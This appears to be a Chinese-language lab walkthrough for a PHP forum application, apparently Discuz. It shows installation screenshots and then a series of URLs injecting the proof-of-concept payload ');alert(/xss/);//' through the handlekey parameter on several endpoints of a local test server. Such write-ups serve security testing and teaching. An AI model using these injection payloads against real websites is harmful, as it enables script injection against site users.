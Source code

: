 
# 实战
在浏览器输入
```
http://IP:PORT/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)


![image]({path}/3.png)

![image]({path}/4.png)


## 攻击实战

在浏览器输入
```
192.168.1.170:7777/admincp.php?infloat=yes&handlekey=123);alert(/xss/);//
```

![image]({path}/5.png)


在浏览器输入

```
192.168.1.170:7777/ajax.php?infloat=yes&handlekey=123);alert(/xss/);//
```

![image]({path}/6.png)


在浏览器输入

```
192.168.1.170:7777/announcement.php?infloat=yes&handlekey=123);alert(/xss/);//
```

![image]({path}/7.png)

在浏览器输入

```
192.168.1.170:7777/attachment.php?infloat=yes&handlekey=123);alert(/xss/);//
```

![image]({path}/8.png)

在浏览器输入

```
192.168.1.170:7777/member.php?infloat=yes&handlekey=123);alert(/xss/);//
```

![image]({path}/9.png)

在浏览器输入

```
192.168.1.170:7777/post.php?action=reply&fid=17&tid=1591&extra=&replysubmit=yes&infloat=yes&handlekey=123);alert(/xss/);//
```

![image]({path}/10.png)